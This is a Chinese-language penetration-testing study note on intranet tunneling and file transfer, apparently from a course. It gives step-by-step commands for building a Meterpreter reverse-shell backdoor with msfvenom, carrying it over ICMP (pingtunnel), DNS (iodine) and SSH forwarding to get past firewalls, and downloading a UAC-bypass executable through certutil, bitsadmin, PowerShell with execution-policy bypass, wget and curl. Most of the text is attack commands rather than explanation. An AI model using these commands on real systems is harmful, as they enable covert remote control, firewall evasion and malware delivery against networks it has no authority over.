



# 内网安全——隧道技术建立与文件传输

## 隧道技术

1. 一种通过使用互联网络基础设施在网络之间传递数据的方式，包括数据封装、传输和解包在内的全过程。使用隧道传递的数据(或负载)可以是不同协议的数据帧或包。

2. 封装：
   - 隧道协议将这些其他协议的数据帧或包重新封装在新的包头中发送。
   - 新的包头提供了路由信息，从而使封装的负载数据能够通过互联网络传递

3. 传输：
   - 被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。
   - 被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道

4. 解包：
   - 一旦到达网络终点，数据将被解包并转发到最终目的地

5. 解决：
   - 利用各种隧道技术，以网络防火墙允许的协议，绕过网络防火墙的封锁，实现访问被封锁的目标网络

## 常用的隧道技术

1. 根据协议划分
   - 网络层：
     - IPv6 隧道
     - ICMP 隧道
   - 传输层：
     - TCP 隧道
     - UDP 隧道
     - 常规端口转发
   - 应用层：
     - SSH 隧道
     - HTTP/S 隧道
     - DNS 隧道

2. 隧道工具
   - 端口转发：
     - lcx 
     - netsh 
     - portfwd
   - CMP隧道工具：
     - icmpsh 
     - pingtunnel 
     - icmptunnel
   - DNS隧道工具：
     - dnscat2  
     - iodine
   - SSH隧道工具：
     - Linux 
     - ssh
   - IPV6隧道工具：
     - socat 
     - 6tunnel 
     - nt6tunnel
   - Socks代理工具：
     - Sockscap 
     - Proxifier 
     - Proxychains

3. 综合穿透平台：
   - Ngrok 
   - Frp 
   - SPP 
   - Nps(麻烦) 
   - EW(停更)

## ICMP隧道-防火墙-Pingtunnel&Msf上线



1. 环境：Win主机被防火墙限制出网，只让ICMP协议通讯

2. 解决：实现将Win主机进行CS或MSF控制便于后续安全测试

3. - 工具：[pingtunnel](https://github.com/esrrhs/pingtunnel)

   - 判断出网：

     ``` shell
     ping www.baidu.com
     ```

4. Kali生成后门：

   ``` shell
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=3333 -f exe > xd.exe
   ```

5. MSF启动监听：

   ``` shell
   msfconsole
   
   use exploit/multi/handler
   
   set payload windows/meterpreter/reverse_tcp
   
   set lhost 0.0.0.0
   
   set lport 4444
   
   exploit 
   ```

6. Kali开启隧道：

   ``` shell
   ./pingtunnel -type server
   ```

7. Win开启隧道 //将本地3333 icmp数据转发至158的4444 tcp流量上

   ``` powershell
   pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.46.158 -t 192.168.46.158:4444 -tcp 1
   ```

## DNS隧道-防火墙-VPS&iodined&CS上线



1. 环境：内网主机只出网DNS协议数据

2. 解决：
   - 服务器尝试SSH协议连接客户端绕过限制
   - 上线CS DNS协议 参考前面课程

3. - 工具：[iodine](https://github.com/yarrick/iodine)

   - 判断出网：

     ``` powershell
     nslookup www.baidu.com
     ```

4. 服务器：

   ``` shell
   iodined -f -c -P username 192.168.0.1 URL -DD
   ```

5. 尝试连接：

   ``` shell
   ssh root@192.168.0.2
   ```

6. 设置密码xiaodi并创建虚拟IP及绑定域名指向

7. 客户端：

   ``` shell
   iodine -f -P username URL
   ```

8. 连接密码xiaodi并绑定域名指向

## SSH隧道-防火墙-本地&远程转发数据通讯



1. 环境：内网Kali2021被防火墙拒绝协议连接

2. 开启ssh协议登录：

   ``` shell
   vi /etc/ssh/sshd_config
   
   PermitRootLogin yes
   
   PasswordAuthentication yes
   
   /etc/init.d/ssh start
   
   /etc/init.d/ssh restart
   ```

3. 防火墙限制：

   ``` shell
   iptables -A INPUT -p tcp -s 192.168.46.158 -j DROP
   ```

4. 本地转发：kali2021 //将跳板131访问130流量给本地1122端口

   ``` shell
   ssh -CfNg -L 1122:192.168.46.130:22 root@192.168.46.131
   
   ssh root@127.0.0.1 -p 1122
   ```

5. 远程转发：//将本地访问130流量转发给158上1234端口

   ``` shell
   kali2020
   
   ssh -CfNg -R 1234:192.168.46.130:22 root@192.168.46.158
   
   kali2021
   
   ssh root@127.0.0.1 -p 1234
   ```

## 文件传输-内网域-Win&Linux自带&上传下载

1. 工具方法：

   - Linux：

     ``` shell
     nc wget curl
     ```

   - windows：

     - ftp 
     - vbs 
     - powershell 
     - certutil 
     - bitsadmin

   - 参考文章：[内网域文件传输](https://blog.csdn.net/qq_36374896/article/details/84350015)

2. 具体使用方法

   - vbs：不推荐

   - ftp：

     ``` shell
     ftp -s:ftp.txt
     ```

   - bitsadmin：

     ``` shell
     bitsadmin /transfer n http://192.168.0.101:8081/DccwBypassUAC.exe c:\DccwBypassUAC.exe
     ```

   - certutil

     ``` shell
     certutil -urlcache -split -f http://192.168.0.101:8081/DccwBypassUAC.exe c:\DccwBypassUAC.exe
     ```

   - powershell

     ``` powershell
     powershell -exec bypass -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.101:8081/DccwBypassUAC.exe','c:\DccwBypassUAC.exe')
     ```

   - nc：不推荐

   - wget

     ``` shell
     wget http://192.168.0.101:8081/DccwBypassUAC.exe
     ```

   - curl

     ``` shell
     curl http://192.168.0.101:8081/DccwBypassUAC.exe --output myphp.php
     ```